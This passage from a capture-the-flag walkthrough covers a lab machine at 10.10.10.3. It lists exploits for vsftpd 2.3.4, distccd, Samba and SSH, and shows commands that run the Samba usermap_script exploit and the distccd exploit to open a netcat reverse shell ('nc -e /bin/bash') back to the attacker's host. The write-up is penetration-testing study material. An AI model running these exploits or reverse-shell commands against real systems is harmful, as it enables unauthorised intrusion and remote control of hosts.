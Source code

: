 
Lets now search vulenrabilites first of all these version of services.

Vulenrabilites found on Port 21 : 
```bash 
vsftpd 2.3.4 - Backdoor Command Execution : https://raw.githubusercontent.com/ahervias77/vsftpd-2.3.4-exploit/master/vsftpd_234_exploit.py, https://www.exploit-db.com/exploits/17491
```

Vulnerabilites found on Port 3632 :

```bash
DistCC Daemon Command Execution  : https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec/
distccd v1 RCE (CVE-2004-2687) : https://gist.githubusercontent.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855/raw/48ab4eb0bd69cac67bc97fbe182e39e5ded99f9f/distccd_rce_CVE-2004-2687.py
```

Vulnerabilties found on 445 

```bash
BufferOVerflow : https://github.com/macha97/exploit-smb-3.0.20/blob/master/exploit-smb-3.0.20.py
RCE : https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/
```

Vulnerabilties on Port 22:
```bash
 SSH User Code Execution : https://www.rapid7.com/db/modules/exploit/multi/ssh/sshexec/
```

Exploit used in the end to gain root was this : https://github.com/amriunix/CVE-2007-2447
```bash
sudo apt install python python-pip
pip install --user pysmb
git clone https://github.com/amriunix/CVE-2007-2447.git
```
These commands would help us set up the exploit to work and then to get a revershe shell back lets use netcat to listen back for a reverse shell :

```bash
# syntax : python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>
python usermap_script.py 10.10.10.3 445 10.10.14.16 4444
nc -nvlp 4444
```

Also we can get a shell through Daemon and get a shell as daemon and it seems to be vulnerbale to dritycow it didnt run when compiled on my machine but still its to be noted :

```bash
python distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc -e /bin/bash 10.10.14.16 4444"
```

Dirty Cow exploit could be found here : https://www.exploit-db.com/raw/40839




# Linux : Valentine : 10.10.10.79 : Easy

Nmap Results :
